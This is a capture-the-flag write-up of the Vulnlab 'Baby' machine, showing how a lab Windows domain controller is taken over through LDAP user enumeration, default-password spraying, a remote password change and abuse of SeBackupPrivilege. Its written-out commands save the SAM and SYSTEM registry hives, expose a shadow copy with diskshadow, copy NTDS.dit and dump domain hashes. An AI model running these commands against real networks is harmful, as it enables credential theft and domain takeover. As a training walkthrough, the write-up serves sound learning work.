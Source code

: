 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Baby/logo.png
date: 2024-06-21 09:45:47 +07:00
modified: 2024-06-21 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: jkr
  link: https://app.hackthebox.com/users/77141
tags: [Nmap, SMB, LDAP, SeBackupPrivilege, Diskshadow, Secretsdump, Brute Force, Password Change, Shadow Copy, Robocopy, smbpasswd, VulnLab, Baby ]

title: Baby - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Baby is an **easy** difficulty machine, Where I had to enumerate open ports and services, leverage LDAP and SMB services to gain initial access, utilize SeBackupPrivilege to extract sensitive files and employ various tools to achieve privilege escalation and capture the root flag.


# Enumeration
The Nmap scan shows the following ports.

```bash
PORT      STATE SERVICE       VERSION         
53/tcp    open  domain        Simple DNS Plus 
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-21 13:49:35Z)
135/tcp   open  msrpc         Microsoft Windows RPC     
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds?       
464/tcp   open  kpasswd5?           
3389/tcp  open  ms-wbt-server Microsoft Terminal Services  
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2024-06-20T13:28:17       
|_Not valid after:  2024-12-20T13:28:17       
|_ssl-date: 2024-06-21T13:51:05+00:00; -2s from scanner time.             
| rdp-ntlm-info:  
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY       
|   NetBIOS_Computer_Name: BABYDC   
|   DNS_Domain_Name: baby.vl        
|   DNS_Computer_Name: BabyDC.baby.vl         
|   Product_Version: 10.0.20348     
|_  System_Time: 2024-06-21T13:50:25+00:00
```

Next, I check SMB shares with an anonymous login but no luck. I moved to ldap where I was able to list the users in the domain.

`netexec ldap 10.10.95.186 -u '' -p '' --user`

![](https://photos.squarezero.dev/file/abir-images/Baby/0.png)

After that, I checked the user's description and got the default passwords for new users.

`netexec ldap 10.10.95.186 -u '' -p '' --user -M get-desc-users`

![](https://photos.squarezero.dev/file/abir-images/Baby/1.png)

# Password_MUST_Change

I used the default password against Teresa and it didn't work. So I have collected all the users and bruteforce using the default password.

![](https://photos.squarezero.dev/file/abir-images/Baby/2.png)

As seen in the result when trying to login using the default password Caroline needs to change her password. I can change the password remotely using SMBPASSWD. And with the new password, I logged into the machine and got the user flag.

`smbpasswd -r 10.10.95.186 -U caroline.robinson`

![](https://photos.squarezero.dev/file/abir-images/Baby/3.png)

![](https://photos.squarezero.dev/file/abir-images/Baby/4.png)

# SeBackupPrivilege

I checked the permissions and SeBackupPrivilege was enabled.

![](https://photos.squarezero.dev/file/abir-images/Baby/5.png)

With this permission, I copied SAM and SYSTEM files.

`reg.exe save hklm\sam C:\Users\Caroline.Robinson\Desktop\sam.save`
`reg.exe save hklm\system C:\Users\Caroline.Robinson\Desktop\system.save`

![](https://photos.squarezero.dev/file/abir-images/Baby/6.png)

After transferring the files to my machine I used Secrectsdump to get the administrator's password.

![](https://photos.squarezero.dev/file/abir-images/Baby/7.png)

But when I couldn't login using that administrator hash as it's for local admin.

![](https://photos.squarezero.dev/file/abir-images/Baby/8.png)

To get the root flag I need to get the administrator of DC. For that I need NTDS.dit alongside SAM and SYSTEM.
I used diskshadow.exe to create a Shadow copy of the C drive. At first, I created a script which has all the commands needed to create a backup using Diskshadow.

```
set metadata C:\Windows\System32\spool\drivers\color\sss.cabs
set context clientaccessibles
set context persistents
begin backups
add volume c: alias coldfx#
creates
expose %coldfx% z:#
```

After that, I ran the script with Diskshadow which created the shadow drive of C. 

![](https://photos.squarezero.dev/file/abir-images/Baby/9.png)

Now using Robocopy I can transfer NTDS.dit.
`robocopy /B z:\Windows\NTDS .\ntds ntds.dit`

![](https://photos.squarezero.dev/file/abir-images/Baby/10.png)

Now I used Secrectsdump again to dump the hash of Domain Administrator and got root.txt

![](https://photos.squarezero.dev/file/abir-images/Baby/11.png)

![](https://photos.squarezero.dev/file/abir-images/Baby/12.png)

# Bonus

### LDAP Enumeration Alternative
Using Ldapsearch for enumeration
`ldapsearch -H ldap://10.10.92.79 -D '' -w '' -b "DC=baby,DC=vl"`

### SeBackupPrivillege Alternative
If the Sebackupprivillege was disabled this can be used to read the flag without needing to login to administrator.

[SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)

```
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Set-SeBackupPrivilege
Get-SeBackupPrivilege
Copy-FileSeBackupPrivilege 'C:\Users\Administrator\Desktop\root.txt' .\root.txt
```

![](https://photos.squarezero.dev/file/abir-images/Baby/13.png)







